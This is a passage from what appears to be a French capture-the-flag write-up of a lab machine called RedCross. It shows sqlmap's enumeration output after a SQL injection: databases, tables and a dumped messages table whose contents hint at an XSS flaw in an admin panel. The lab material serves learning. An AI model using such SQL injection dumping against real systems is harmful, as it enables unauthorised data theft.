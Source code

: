 Cette fois ça passe comme dans du beurre. L'auteur que sqlmap [a mentionné une variable d'environnement](https://twitter.com/sqlmap/status/1085887247998689280) pour ne pas ce soucier de ce problème.  

Je vous fait grâce des légères modifications de commandes pour lister les bases de données, tables et dumper tout ça : *sqlmap -h* (ou *-hh*) se suffit à lui même.  

```plain
available databases [2]:
[*] information_schema
[*] redcross

Database: redcross
[3 tables]
+----------+
| messages |
| requests |
| users    |
+----------+

Database: redcross
Table: requests
[0 entries]
+----+------+-------+---------+
| id | body | cback | subject |
+----+------+-------+---------+
+----+------+-------+---------+

Database: redcross
Table: messages
[8 entries]
+----+----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+------+--------+----------------------------------------------+
| id | body                                                                                                                                                                                         | dest | origin | subject                                      |
+----+----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+------+--------+----------------------------------------------+
| 1  | You're granted with a low privilege access while we're processing your credentials request. Our messaging system still in beta status. Please report if you find any incidence.              | 5    | 1      | Guest Account Info                           |
| 2  | Hi Penny, can you check if is there any problem with the order? I'm not receiving it in our EDI platform.                                                                                    | 2    | 4      | Problems with order 02122128                 |
| 3  | Please could you check the admin webpanel? idk what happens but when I'm checking the messages, alerts popping everywhere!! Maybe a virus?                                                   | 3    | 1      | Strange behavior                             |
| 4  | Hi, Please check now... Should be arrived in your systems. Please confirm me. Regards.                                                                                                       | 4    | 2      | Problems with order 02122128                 |
| 5  | Hey, my chief contacted me complaining about some problem in the admin webapp. I thought that you reinforced security on it... Alerts everywhere!!                                           | 2    | 3      | admin subd webapp problems                   |
| 6  | Hi, Yes it's strange because we applied some input filtering on the contact form. Let me check it. I'll take care of that since now! KR                                                      | 3    | 2      | admin subd webapp problems (priority)        |
| 7  | Hi, Please stop checking messages from intra platform, it's possible that there is a vuln on your admin side...                                                                              | 1    | 2      | STOP checking messages from intra (priority) |
| 8  | Sorry but I can't do that. It's the only way we have to communicate with partners and we are overloaded. Doesn't look so bad... besides that what colud happen? Don't worry but fix it ASAP. | 2    | 1      | STOP checking messages from intra (priority) |
```
